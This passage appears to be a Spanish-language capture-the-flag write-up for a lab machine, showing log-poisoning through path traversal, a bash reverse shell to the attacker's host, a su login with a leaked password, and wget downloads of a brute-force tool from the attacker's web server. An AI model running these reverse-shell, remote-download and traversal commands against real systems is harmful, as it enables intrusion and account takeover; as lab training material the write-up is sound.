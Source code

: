 ```bash
curl -s -X GET http://thetruthoftalos.hmv/index.php\?filename\=....//....//....//....//....//var/log/nginx/access.log\&cmd\=id
```
## Shell - www-data
Nos mandamos una reverse shell a nuestra maquina por el puerto 443

```
bash -c "bash -i >& /dev/tcp/192.168.101.10/443 0>&1"
```
```bash
curl -s -X GET 'http://thetruthoftalos.hmv/index.php?filename=....//....//....//....//....//var/log/nginx/access.log' -G --data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/192.168.101.10/443 0>&1"'
```
## Shell - hermanubis
Como teniamos una la contraseña de hermanubis la probamos y obtenemos shell como hermanubis.
```bash
www-data@principle2:/home/talos$ su hermanubis
Password: ByronIsAsshole
$ bash
hermanubis@principle2:/home/talos$ 
```
```bash
hermanubis@principle2:~$ cat investigation.txt 
I am aware that Byron hates me... especially since I lost my password.
My friends along with myself after several analyses and attacks, we have detected that Melville is using a 32 character password....
What he doesn't know is that it is in the Byron database...
hermanubis@principle2:~$ 

```
## Shell - melville
El fichero nos dice que la contraseña de melville es de 32 caracteres y que el no sabe que byron lo tiene en su base de datos.
Si recordamos byron tenia un registro con diversas contraseñas. Podemos intentar probarlas.

Usaremos una herramienta para realizar fuerza bruta al su [suForce](https://github.com/d4t4s3c/suForce).

Pasamos el script y las contraseñas a la maquina víctima mediante python3.


```bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.101.12 - - [25/Dec/2023 12:03:52] "GET /suForce HTTP/1.1" 200 -

hermanubis@principle2:/tmp$ wget http://192.168.101.10/suForce
--2023-12-25 17:03:55--  http://192.168.101.10/suForce
Connecting to 192.168.101.10:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 23611 (23K) [application/octet-stream]
Saving to: ‘suForce’

suForce             100%[===================>]  23.06K  --.-KB/s    in 0s      

2023-12-25 17:03:55 (376 MB/s) - ‘suForce’ saved [23611/23611]

hermanubis@principle2:/tmp$ chmod +x suForce 
hermanubis@principle2:/tmp$ wget http://192.168.101.10/hex
--2023-12-25 17:05:22--  http://192.168.101.10/hex
Connecting to 192.168.101.10:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 33033 (32K) [application/octet-stream]
Saving to: ‘hex’
```